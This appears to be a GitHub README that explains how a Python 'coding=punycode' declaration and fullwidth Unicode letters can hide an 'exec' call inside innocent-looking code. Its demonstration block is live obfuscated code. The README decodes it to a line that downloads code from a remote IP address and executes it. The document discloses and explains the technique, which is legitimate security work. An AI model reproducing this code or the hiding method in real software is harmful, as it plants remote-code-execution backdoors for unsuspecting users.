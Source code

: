 # The weird code

This is a demonstration that the encoding declarations ( https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations ) of python in conjunction with punycode encoding can be used to craft malicious code snippets that look benign.



## Demonstration Code

The code: <br>
(Note: copying this code may break it as described at the bottom of `The encoding used in the code`)

```py
#They say codying is fun, but I like puns, so when I code, coding!=funnycode, but coding=punycode ... anyways, here is some nice python code :)

I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: -47415qpygaa76ea29ah9daca59abba63qeacaacc99aad01ba90babbc80bf52ba42j1lla61b70aqa632n6a49a6a40b9a19aedb39aaead4agc17j4lb81kao43bip4nlafc6b63awaf14bvobfo1b48ac55bmava93bjap79km616kt0aa689f
```


## What does it do?
Lines with comments don't matter, right? <br>
So let's look at the code without comments first:

```py
I="I"
love="love"
python="python"

print(I, love, python)

def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))
```

Up to `print(I, love, python)` it is quite obvios: <br>
We just assign three variables and print them.
In python, printing multiple values with a single call to `print` will seperate them with a space.
So we get:

```
I love python
```

Next up is the `shift_cipher` function.
As the name indicates, it takes the character code of every character of the provided string and adds the key to it.
Then, ensures that it is between `0` and `128` (some ascii character) and converts it back to a character.

if we called `shift_cipher("abz", 1)` we would get `"bc{"` (`"{"` just happens to be the next character after `"z"`).

So if we shift `"ymnx%nx%f%xjhwjy%rjxxflj&"` by `-5`, we just have to look up the characters in an ascii table and subtract `5` and look at the character we get from that.
If we were to reach negative numbers we would have to wrap around starting at `127`.
But that never happens.

So, we expect the code to print `this is a secret message!`.


## But what does it REALLY do?

See, python is weird.
Comments are not always comments.
Especially in the first two lines, you can use comments to indicate how the python interpreter should do some things.


### Encoding

One thing you can specify is the encoding (The way how characters are encoded. This is relevant as soon as you have characters that are bigger than 255 and thus cannot be represented in a single byte.).
By default, python is supposed to use `utf-8` (but I'm not sure this is the case on Windows.) - the most sensible encoding to use!
But if we want something else, we can add a comment in the first line specifying a different encoding like this:

```py
# coding=utf-16
```

More specifically it can also be in the second line, if the first line is a comment.
And, the interpreter searches for the following pattern: `coding[=:]\s*([-\w.]+)` - meaning `coding` followed directly by `=` or `:`, then an arbitrary amount of whitespace characters followed by an arbitrary amount (but at least one) of `.`, `-`, or characters that match `\w` (`a-z`, `A-Z`, `0-9`, and `_`).
One important observation: The interpreter searches this pattern ANYWHERE in the line, so the line can also contain a lot of other stuff apart from it.


### The encoding used in the code

So if we look through the first line of the script, we can find `coding=punycode` which matches the pattern!
So we use `punycode` to encode the file?
What is that?

You may know that Internet domains can contain emoji characters now (e.g., `i❤️.ws` is a valid domain).
However, everything that makes up the backbones of the internet can basically only handle ascii characters.
So punycode was invented to encode arbitrary emojis etc. in ascii strings.
Here is a link to wikipedia explaining it a bit (we will cover the important parts below anyways though): https://en.wikipedia.org/wiki/Punycode
For instance, `i❤️.ws` would be encoded as `xn--i-7iq.ws`.

The important parts of punycode encoding to understand the script is:
1. it keeps ascii characters the same and doesn't touch them
2. it removes all non-ascii characters but adds information on how to add them back in at the end of the encoded file
3. to mark the beginning of where the information to add characters back in starts, it adds a `-` character just before.

So after the last `-` character, there will be information on how to insert special characters into the script.

The reason this code may not work if you copy paste it around is that changes to whitespace or newlines (which are sometimes made by text editors) matter to the punycode encoding and will break the code.


### Looking at the ACTUAL code

I don't really understand the details of the encoding, but we can decode the script using python (this script just removes the first line containing the comment and decodes the rest using punycode):

```py
import sys
print((b"\n" + b"\n".join(open(sys.argv[1], "rb").read().split(b"\n")[1:])).decode("punycode"))
```

We get the following code (see `decoded.py`):

```py


I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ｅｘｅｃ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="﩮全冀充勺啕逸喙勺况况﩮逸勉勺頻勇喙頻喝啕逸辶喝逸充﨏頻墳頻難鶴充勉喙勺况充冀頻侀鶴﨧舘啕啕冀憎勤勤層嘆勉喝屮喝勉喝悔嘆勉喝卑卑憎喝器器屮勤逸響﨧郞勉勺頻辶響鶴郞勉響頻難充響頻鶴郞郞﨨ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: 
```

One other thing important in python is, that unicode characters that are letters (for example `ｅ`) are treated like their ascii counterparts (in this case `e`) for variable names.
So `ｅｘｅｃ` is the same as `exec`, but it disappears to the end of the file when encoding with punycode.

If you are new to python, `exec` basically takes a string and executes it as python code.
And `shift_cipher` no longer just decrypts the given string, but it also executes the result.
So if we give it ("encrypted") evil code, we may be in trouble.

We now also see that `secret` actually contains a whole lot of unicode characters, but what happens if we put them through `shift_cipher`?

The short answer is: Those symbols are chosen such that subtracting `5` from them does not convert them to usable code, but the `% 128` is also needed to make them useful.
With the `% 128` I can ensure that I can convert a unicode character that will be removed by punycode encoding and put at the end to any ascii character I want.
Thus, I can make that `shift_cipher` executes whatever python code I want after decrypting it without any characters in the python script changing except for the comment in the last line.

So what did I put into the string?
Let's decode it:

```py
import urllib.request as o
exec(o.urlopen("http://62.171.182.100:1337/bd").read().decode())#
```

This is bad!
The script sends a request to `http://62.171.182.100:1337/bd` and executes whatever it gets back.
So I basically can send arbitrary malicious python code and it gets executed!
